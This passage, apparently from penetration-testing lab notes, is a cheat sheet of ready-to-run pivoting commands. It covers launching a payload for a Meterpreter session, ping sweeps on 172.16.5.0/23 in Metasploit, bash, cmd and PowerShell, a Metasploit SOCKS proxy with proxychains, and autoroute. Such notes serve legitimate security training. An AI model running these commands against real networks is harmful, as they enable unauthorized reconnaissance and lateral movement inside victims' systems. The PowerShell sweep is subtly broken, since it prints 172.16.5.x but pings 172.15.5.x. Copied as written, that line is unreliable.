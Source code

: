 ```Shell
./backupjob
```

#### Meterpreter Session Established

#### Meterpreter Ping Sweep
```Shell
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

#### Ping Sweep For Loop on Linux Pivot Hosts
```Shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

#### Ping Sweep For Loop Using CMD
```cmd.exe
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

#### Ping Sweep For Loop Using PowerShell
```PowerShell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

*Note: It is possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks. This can be caused by the time it takes for a host to build it's arp cache. In these cases, it is good to attempt our ping sweep at least twice to ensure the arp cache gets built. *

#### MSF - Configuring MSF's SOCKS Proxy
```Shell
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run
```

#### MSF - Confirming Proxy Server is Running
```Shell
jobs
```

#### Adding a line to proxychains.conf if needed
```Shell
socks4    127.0.0.1 9050
```

*Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf. *

#### MSF - Creating Routes with AutoRoute
```Shell
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run
```
`OR from Meterpreter`:
```Shell
run autoroute -s 172.16.5.0/23
```
